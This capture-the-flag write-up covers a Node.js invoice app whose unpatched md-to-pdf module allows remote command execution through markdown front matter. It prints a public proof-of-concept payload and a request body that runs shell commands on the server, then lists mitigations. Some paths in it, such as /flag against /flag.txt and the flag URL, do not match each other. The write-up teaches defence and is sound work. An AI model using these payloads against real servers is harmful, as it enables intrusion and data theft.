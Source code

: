 ```yaml
---
layout: default
title: Blinkerfluids
---
```


# Blinkerfluids

*I did not have the foresight to save screenshots or the challenge description while the CTF was active*.

In this challenge, a web application allows the user to create a markdown based invoice, and it will convert it to PDF. 

We are given a copy of the source code, so the first thing I do is explore that.

The web app is a docker container that runs a `node.js` based javascript web app.

The `Dockerfile` tells us that the flag can be found at /flag.txt:
```
# Add flag
COPY flag.txt /flag.txt
```

The file `MDHelper.js` contains code that uses the `md-to-pdf` module to convert a MarkDown document to a PDF.

```javascript
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}

module.exports = {
    makePDF
};
```
We can see that it dumps the finished PDF files in `./static/invoices/`.

A quick google search for "md-to-pdf exploits" leads me to numerous sites describing a Remote Code Execution vulnerability in this module prior to version `5.0.0`. The `package.json` file tells me that the version of this plugin that the app is using is `4.1.0`, so we should be able to use this to grab the flag.

The code in `MDHelper` doesn't appear to do any sanitization of the input, it just takes the raw input from the API endpoint and runs it through md-to-pdf. 

The proof of concept code for this exploit tells me that if I give it the following payload, I can run arbitrary commands on the server:
```
---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE
```
So, I used [Insomnia](https://insomnia.rest) to send the following request body directly to `http://challenge-ip-and-port/api/invoice/add`. I had to replace the double-quotes with single-quotes, from the proof of concept code.
```
{
    "markdown_content" : "---jsn((require('child_process')).execSync('cat /flag > static/invoices/flag.txt'))n---RCE"
}
```
And response I got back was:
```
{
    "message" : "Invoice saved successfully!"
}
```
Now all I needed to do was to visit `http://challenge-ip-and-port/static/flag.txt` to view the flag.

I had originally tried to coax it into putting the flag data into the PDF, but realized I could just copy the file directly to a web-viewable directory and ignore the PDF.

This exploit could have been thwarted by:
 - Updating md-to-pdf to version 5.0.0 or above
 - Sanitizing user input to only allow MarkDown
 - Running the app using a limited user account in the Docker container and setting proper permissions for sensitive files in the container.